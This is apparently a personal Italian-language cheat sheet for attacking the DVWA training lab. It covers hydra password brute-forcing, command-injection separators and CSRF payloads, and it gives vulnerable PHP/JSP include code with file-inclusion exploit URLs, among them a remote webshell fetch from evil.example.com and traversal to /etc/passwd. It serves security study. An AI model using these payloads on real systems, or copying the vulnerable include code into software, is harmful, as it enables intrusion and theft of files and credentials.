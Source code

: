 # DVWA

> http://www.dvwa.co.uk/

Default credentials: admin/password

## Brute force

- retrieve a valid PHPSESSID (`$1`)

- launch:

	`$ hydra -l admin -P rockyou.txt localhost http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=$1; security=low"`

	"RELATIVE PATH:PARAMETERS:FAILED LOGIN TEXT:REQUEST COOKIES"

## Command injection

- submit:

	`; CMD`

	`&& CMD`

	`& CMD`

	`| CMD`

## CSRF

Cross-Site Request Forgery forza l'utente a fare una richiesta malevola a un sito su cui è autenticato.
L'attacco ha come obiettivo le richieste che cambiano lo stato interno del server, non il furto di dati, infatti l'attaccante non ha modo di vedere la risposta alla richiesta malevola.
Si ha una vulnerabilità "stored CSRF" quando l'attaccante è in grado di rendere persistente l'attacco direttamente sul sito vulnerabile.
A tale scopo si memorizza un tag IMG o IFRAME in un campo che accetta HTML o si realizza un più complesso attacco di XSS.

Example (GET method):

	<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>

	or

	<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">



Example (POST method):

	<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
	<input type="hidden" name="acct" value="MARIA"/>
	<input type="hidden" name="amount" value="100000"/>
	<input type="submit" value="View my pictures"/>
	</form>

	or

	<body onload="document.forms[0].submit()">
	<form...>

	or

	<script>
	function put() {
		var x = new XMLHttpRequest();
		x.open("PUT","http://bank.com/transfer.do",true);
		x.setRequestHeader("Content-Type", "application/json"); 
		x.send(JSON.stringify({"acct":"BOB", "amount":100})); 
	}
	</script>
	<body onload="put()">

L'ultima richiesta **non** viene eseguita dai moderni browser grazie alla restrizione same-origin prolicy.
Questa funzionalità è abilitata di default, a meno che il server abiliti esplicitamente le richieste cross-origin da uno o più siti usando CORS con l'header `Access-Control-Allow-Origin: *`.

## File inclusion

Questa vulnerabilità si ha quando un'applicazione crea un path per codice eseguibile usando una variabile che è sotto il controllo dell'attaccante,
in un modo che gli permette di controllare quale file viene eseguito a run time.
Sfruttando una vulnerabilità di questo tipo permette una RCE sul server che esegue l'appicazione vulnerabile.

### Remote File Inclusion

L'applicazione scarica ed esegue un file remoto.

### Local File Inclusion

Come il RFI ma il file è già presente sul server.

#### PHP

Funzioni che includono un file per l'esecuzione sono `include` e `require`.
La direttiva `allow_url_fopen` o `allow_url_include` abilitata permette di usare una URL per scaricare un file remoto ed eseguirlo.
Anche se disabilitato è raggirabile con compressione (`zlib://`) o stream audio (`ogg://`) che non ispezionano il flag URL PHP interno.
Si possono sfruttare anche i wrapper PHP come `php://input`.

Codice vulnerabile

	<form method="get">
	   <select name="language">
	      <option value="english">English</option>
	      <option value="french">French</option>
	      ...
	   </select>
	   <input type="submit">
	</form>

	<?php
	   if ( isset( $_GET['language'] ) ) {
	      include( $_GET['language'] . '.php' );
	   }
	?>

Exploit

	/vulnerable.php?language=http://evil.example.com/webshell.txt?
	/vulnerable.php?language=C:\\ftp\\upload\\exploit
	/vulnerable.php?language=C:\\notes.txt%00
	/vulnerable.php?language=../../../../../etc/passwd%00
	/vulnerable.php?language=../../../../../proc/self/environ%00

#### JSP

JSP è vulnerabile a Null byte injection (`%00`)

Codice vulnerabile

	<%
	   String p = request.getParameter("p");
	   @include file="<%="includes/" + p +".jsp"%>"
	%>

Exploit

	/vulnerable.jsp?p=../../../../var/log/access.log%00

- send GET request:

	http://localhost/vulnerabilities/fi/?page=../../../../../etc/passwd

**TODO: approfondisci meglio** 

- https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601
- https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/

